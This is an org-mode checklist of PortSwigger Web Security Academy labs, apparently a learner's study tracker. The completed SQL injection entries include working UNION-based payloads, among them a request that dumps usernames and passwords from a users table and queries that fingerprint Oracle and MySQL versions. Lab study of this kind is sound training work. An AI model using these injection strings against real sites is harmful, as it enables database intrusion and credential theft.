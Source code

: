 -*- org-emphasis-alist: (("*" bold) ("/" italic) ("_" underline) ("=" org-verbatim verbatim) ("~" org-code verbatim) ("+" (:strike-through nil))); -*-
* Web Security Academy All labs
* SQL injection
** DONE LAB SQL injection UNION attack, determining the number of columns returned by the query
** DONE LAB SQL injection UNION attack, finding a column containing text
** DONE LAB SQL injection UNION attack, retrieving data from other tables
** DONE LAB SQL injection UNION attack, retrieving multiple values in a single column
once colonlari bulduk nulla -> GET /filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users-- HTTP/1.1
** DONE LAB SQL injection attack, querying the database type and version on Oracle
once nulladik 
'+UNION+SELECT+null,null+FROM+DUAL--
'+UNION+SELECT+null,'abc'+FROM+DUAL--
'+UNION+SELECT+'abc','def'+FROM+DUAL--  first fount text olan yerleri bulduk sonra da asagidakiyle versiyon geldi
GET /filter?category=Pets'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- HTTP/1.1
'+UNION+SELECT+banner+FROM+v$version
** DONE LAB SQL injection attack, querying the database type and version on MySQL and Microsoft
GET /filter?category=Pets'+UNION+SELECT+'abc','def'# HTTP/1.1 -> kolonlari bulduk 
'+UNION+SELECT+@@version,+NULL# -> # -> mysql 
'UNION+SELECT+@@version--
'UNION+SELECT+/*!32302+1/0,+*/+1+FROM+tablename
** TODO LAB SQL injection attack, listing the database contents on non-Oracle databases

** TODO LAB SQL injection attack, listing the database contents on Oracle
** TODO LAB Blind SQL injection with conditional responses
** TODO LAB Blind SQL injection with conditional errors
** TODO LAB Blind SQL injection with time delays
** TODO LAB Blind SQL injection with time delays and information retrieval
** TODO LAB Blind SQL injection with out-of-band interaction
** TODO LAB Blind SQL injection with out-of-band data exfiltration
** DONE LAB SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
** DONE LAB SQL injection vulnerability allowing login bypass
* Cross-site scripting
** TODO LAB Reflected XSS into HTML context with nothing encoded
** TODO LAB Reflected XSS into HTML context with most tags and attributes blocked
** TODO LAB Reflected XSS into HTML context with all tags blocked except custom ones
** TODO LAB Reflected XSS with event handlers and href attributes blocked
** TODO LAB Reflected XSS with some SVG markup allowed
** TODO LAB Reflected XSS into attribute with angle brackets HTML-encoded
** TODO LAB Stored XSS into anchor href attribute with double quotes HTML-encoded
** TODO LAB Reflected XSS in canonical link tag
** TODO LAB Reflected XSS into a JavaScript string with single quote and backslash escaped
** TODO LAB Reflected XSS into a JavaScript string with angle brackets HTML encoded
** TODO LAB Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
** TODO LAB Reflected XSS in a JavaScript URL with some characters blocked
** TODO LAB Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
** TODO LAB Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
** TODO LAB Reflected XSS with AngularJS sandbox escape without strings
** TODO LAB Reflected XSS with AngularJS sandbox escape and CSP
** TODO LAB Stored XSS into HTML context with nothing encoded
** TODO LAB DOM XSS in document.write sink using source location.search
** TODO LAB DOM XSS in document.write sink using source location.search inside a select element
** TODO LAB DOM XSS in innerHTML sink using source location.search
** TODO LAB DOM XSS in jQuery anchor href attribute sink using location.search source
** TODO LAB DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
** TODO LAB Reflected DOM XSS
** TODO LAB Stored DOM XSS
** TODO LAB Exploiting cross-site scripting to steal cookies
** TODO LAB Exploiting cross-site scripting to capture passwords
** TODO LAB Exploiting XSS to perform CSRF
** TODO LAB Reflected XSS protected by CSP, with dangling markup attack
** TODO LAB Reflected XSS protected by very strict CSP, with dangling markup attack
** TODO LAB Reflected XSS protected by CSP, with CSP bypass
* Cross-site request forgery (CSRF)
** TODO LAB CSRF vulnerability with no defenses
** TODO LAB CSRF where token validation depends on request method
** TODO LAB CSRF where token validation depends on token being present
** TODO LAB CSRF where token is not tied to user session
** TODO LAB CSRF where token is tied to non-session cookie
** TODO LAB CSRF where token is duplicated in cookie
** TODO LAB CSRF where Referer validation depends on header being present
** TODO LAB CSRF with broken Referer validation
* Clickjacking
** TODO LAB Basic clickjacking with CSRF token protection
** TODO LAB Clickjacking with form input data prefilled from a URL parameter
** TODO LAB Clickjacking with a frame buster script
** TODO LAB Exploiting clickjacking vulnerability to trigger DOM-based XSS
** TODO LAB Multistep clickjacking
* DOM-based vulnerabilities
** TODO LAB DOM XSS using web messages
** TODO LAB DOM XSS using web messages and a JavaScript URL
** TODO LAB DOM XSS using web messages and JSON.parse
** TODO LAB DOM-based open redirection
** TODO LAB DOM-based cookie manipulation
** TODO LAB Exploiting DOM clobbering to enable XSS
** TODO LAB Clobbering DOM attributes to bypass HTML filters
* Cross-origin resource sharing (CORS)
** TODO LAB CORS vulnerability with basic origin reflection
** TODO LAB CORS vulnerability with trusted null origin
** TODO LAB CORS vulnerability with trusted insecure protocols
** TODO LAB CORS vulnerability with internal network pivot attack
* XML external entity (XXE) injection
** TODO LAB Exploiting XXE using external entities to retrieve files
** TODO LAB Exploiting XXE to perform SSRF attacks
** TODO LAB Blind XXE with out-of-band interaction
** TODO LAB Blind XXE with out-of-band interaction via XML parameter entities
** TODO LAB Exploiting blind XXE to exfiltrate data using a malicious external DTD
** TODO LAB Exploiting blind XXE to retrieve data via error messages
** TODO LAB Exploiting XXE to retrieve data by repurposing a local DTD
** TODO LAB Exploiting XInclude to retrieve files
** TODO LAB Exploiting XXE via image file upload
* Server-side request forgery (SSRF)
** TODO LAB Basic SSRF against the local server
** TODO LAB Basic SSRF against another back-end system
** TODO LAB SSRF with blacklist-based input filter
** TODO LAB SSRF with whitelist-based input filter
** TODO LAB SSRF with filter bypass via open redirection vulnerability
** TODO LAB Blind SSRF with out-of-band detection
** TODO LAB Blind SSRF with Shellshock exploitation
* HTTP request smuggling
** TODO LAB HTTP request smuggling, basic CL.TE vulnerability
** TODO LAB HTTP request smuggling, basic TE.CL vulnerability
** TODO LAB HTTP request smuggling, obfuscating the TE header
** TODO LAB HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
** TODO LAB HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
** TODO LAB Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
** TODO LAB Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
** TODO LAB Exploiting HTTP request smuggling to reveal front-end request rewriting
** TODO LAB Exploiting HTTP request smuggling to capture other users' requests
** TODO LAB Exploiting HTTP request smuggling to deliver reflected XSS
** TODO LAB Exploiting HTTP request smuggling to perform web cache poisoning
** TODO LAB Exploiting HTTP request smuggling to perform web cache deception
* OS command injection
** TODO LAB OS command injection, simple case
** TODO LAB Blind OS command injection with time delays
** TODO LAB Blind OS command injection with output redirection
** TODO LAB Blind OS command injection with out-of-band interaction
** TODO LAB Blind OS command injection with out-of-band data exfiltration
* Directory traversal
** TODO LAB File path traversal, simple case
** TODO LAB File path traversal, traversal sequences blocked with absolute path bypass
** TODO LAB File path traversal, traversal sequences stripped non-recursively
** TODO LAB File path traversal, traversal sequences stripped with superfluous URL-decode
** TODO LAB File path traversal, validation of start of path
** TODO LAB File path traversal, validation of file extension with null byte bypass
* Access control vulnerabilities
** TODO LAB Unprotected admin functionality
** TODO LAB Unprotected admin functionality with unpredictable URL
** TODO LAB User role controlled by request parameter
** TODO LAB User role can be modified in user profile
** TODO LAB URL-based access control can be circumvented
** TODO LAB Method-based access control can be circumvented
** TODO LAB User ID controlled by request parameter 
** TODO LAB User ID controlled by request parameter, with unpredictable user IDs 
** TODO LAB User ID controlled by request parameter with data leakage in redirect 
** TODO LAB User ID controlled by request parameter with password disclosure
** TODO LAB Insecure direct object references
** TODO LAB Multi-step process with no access control on one step 
** TODO LAB Referer-based access control 
* WebSockets
** TODO LAB Manipulating WebSocket messages to exploit vulnerabilities
** TODO LAB Manipulating the WebSocket handshake to exploit vulnerabilities
** TODO LAB Cross-site WebSocket hijacking
* Web cache poisoning
** TODO LAB Web cache poisoning with an unkeyed header
** TODO LAB Web cache poisoning with an unkeyed cookie
** TODO LAB Web cache poisoning with multiple headers
** TODO LAB Targeted web cache poisoning using an unknown header
** TODO LAB Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria
** TODO LAB Combining web cache poisoning vulnerabilities

test
cGVzdA==
